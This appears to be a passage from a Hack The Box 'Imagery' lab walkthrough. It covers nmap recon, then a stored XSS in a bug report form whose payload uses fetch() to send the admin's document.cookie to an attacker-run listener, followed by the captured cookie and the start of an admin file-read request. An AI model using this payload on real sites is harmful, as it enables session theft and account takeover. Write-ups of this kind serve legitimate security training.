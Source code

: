 # HTB - Imagery

**Recon – Nmap**

nmap -sVC 10.129.52.240

- **22/tcp** – SSH
- **8000/tcp** – HTTP (Werkzeug, Python 3.12.7)

The web runs an *Image Gallery* application.

Add 10.129.52.240 imagery to /etc/hosts

Browse to 10.129.52.240:8000

Register an account and then login

Go to Report Bug page

## Initial foothold – Stored XSS → admin cookie

The **bug report** page contains stored XSS. Start a simple HTTP server to capture callbacks:

<aside>
💡

python3 -m http.server 4444

</aside>

Submit this payload in a bug report:

<aside>
💡

<img src=x onerror=fetch('http://10.10.14.60:4444/?pwned='+document.cookie)>

</aside>

When the admin opens the report the admin session cookie is exfiltrated to your listener.

<aside>
💡

10.129.52.240 - - [16/Oct/2025 05:29:12] "GET /?pwned=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPDI9Q.mUoDhBYERkl7jEhpS80Q7sn7ahc HTTP/1.1" 200 -

</aside>

With the stolen admin cookie you can call the admin log endpoint which reads files based on `log_identifier`:

<aside>
💡

COOKIE="session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPDI9Q.mUoDhBYERkl7jEhpS80Q7sn7ahc”
